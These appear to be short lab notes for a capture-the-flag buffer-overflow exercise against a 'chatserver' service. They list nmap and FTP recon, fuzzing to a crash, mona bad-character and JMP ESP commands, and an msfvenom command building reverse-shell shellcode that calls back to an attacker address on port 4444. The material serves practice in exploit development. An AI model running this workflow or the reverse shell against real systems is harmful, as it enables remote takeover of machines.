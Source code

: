 # BRAINSTORM
`nmap -sV  10.10.113.75`  
ftp as anonymous
binary mode
mget FILE

##

* 3 services are running 
- FTP
- custom service at 9999

* FTP 
- run in binary mode
- download chatserver and dll file

* run fuzzer.py
* crashed at 2100 bytes
`!mona config -set workingfolder c:\mona\%p`  
`!mona bytearray -b "\x00"`  
`!mona compare -f C:\mona\chatserver\bytearray.bin -a 00fceea8`  
`!mona jmp -r esp -cpb "\x00"`  
`msfvenom -p windows/shell_reverse_tcp LHOST="10.10.172.192" LPORT=4444 EXITFUNC=thread -b "\x00" -f c`  

